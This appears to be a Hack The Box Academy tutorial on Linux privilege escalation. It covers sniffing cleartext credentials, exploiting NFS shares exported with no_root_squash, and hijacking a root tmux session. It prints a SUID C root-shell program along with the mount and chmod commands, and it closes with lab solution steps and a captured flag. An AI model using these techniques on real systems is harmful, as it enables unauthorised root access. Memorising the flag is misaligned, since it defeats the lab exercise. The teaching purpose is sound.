 ## Passive Traffic Capture

If `tcpdump` is installed, unprivileged users may be able to capture network traffic, including, in some cases, credentials passed in cleartext. Several tools exist, such as [net-creds](https://github.com/DanMcInerney/net-creds) and [PCredz](https://github.com/lgandx/PCredz) that can be used to examine data being passed on the wire. This may result in capturing sensitive information such as credit card numbers and SNMP community strings. It may also be possible to capture Net-NTLMv2, SMBv2, or Kerberos hashes, which could be subjected to an offline brute force attack to reveal the plaintext password. Cleartext protocols such as HTTP, FTP, POP, IMAP, telnet, or SMTP may contain credentials that could be reused to escalate privileges on the host.
## Weak NFS Privileges

Network File System (NFS) allows users to access shared files or directories over the network hosted on Unix/Linux systems. NFS uses TCP/UDP port 2049. Any accessible mounts can be listed remotely by issuing the command `showmount -e`, which lists the NFS server's export list (or the access control list for filesystems) that NFS clients.

```shell-session
KaoruRyusaki@htb[/htb]$ showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

When an NFS volume is created, various options can be set:

|Option|Description|
|---|---|
|`root_squash`|If the root user is used to access NFS shares, it will be changed to the `nfsnobody` user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the `nfsnobody` user, which prevents an attacker from uploading binaries with the SUID bit set.|
|`no_root_squash`|Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.|

```shell-session
htb@NIX02:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

For example, we can create a SETUID binary that executes `/bin/sh` using our local root user. We can then mount the `/tmp` directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.

First, create a simple binary, mount the directory locally, copy it, and set the necessary permissions.

```shell-session
htb@NIX02:~$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

```shell-session
htb@NIX02:/tmp$ gcc shell.c -o shell
```

```shell-session
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

When we switch back to the host's low privileged session, we can execute the binary and obtain a root shell.

```shell-session
htb@NIX02:/tmp$  ls -la

total 68
drwxrwxrwt 10 root  root   4096 Sep  1 06:15 .
drwxr-xr-x 24 root  root   4096 Aug 31 02:24 ..
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .font-unix
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .ICE-unix
-rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
<SNIP>
```

```shell-session
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```

## Hijacking Tmux Sessions

Terminal multiplexers such as [tmux](https://en.wikipedia.org/wiki/Tmux) can be used to allow multiple terminal sessions to be accessed within a single console session. When not working in a `tmux` window, we can detach from the session, still leaving it active (i.e., running an `nmap` scan). For many reasons, a user may leave a `tmux` process running as a privileged user, such as root set up with weak permissions, and can be hijacked. This may be done with the following commands to create a new shared session and modify the ownership.

```shell-session
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```

If we can compromise a user in the `devs` group, we can attach to this session and gain root access.

Check for any running `tmux` processes.

```shell-session
htb@NIX02:~$  ps aux | grep tmux

root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```

Confirm permissions.

```shell-session
htb@NIX02:~$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

Review our group membership.

```shell-session
htb@NIX02:~$ id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```

Finally, attach to the `tmux` session and confirm root privileges.

```shell-session
htb@NIX02:~$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```




#### Question

Review the NFS server's export list and find a directory holding a flag.

* Download the VPN file from the HTB Academy webpage
* Open your VM and go to your Downloads page from the terminal
* Run the command " openvpn academy-regular.ovpn " (if it doesnt work try running the same command with sudo)
* Use the user and password given by HTB and then SSH to the target system spawned for you by running this command "ssh htb-student@\<ip given>\"
* Run command " cat /etc/exports " at the end of the file you will see 2 available folders which are "/tmp"  and "/var/nfs/general "
* Move to the "/var/nfs/general " folder, there is a " exports_flag.txt " you can check
* fc8c065b9384beaa162afe436a694acf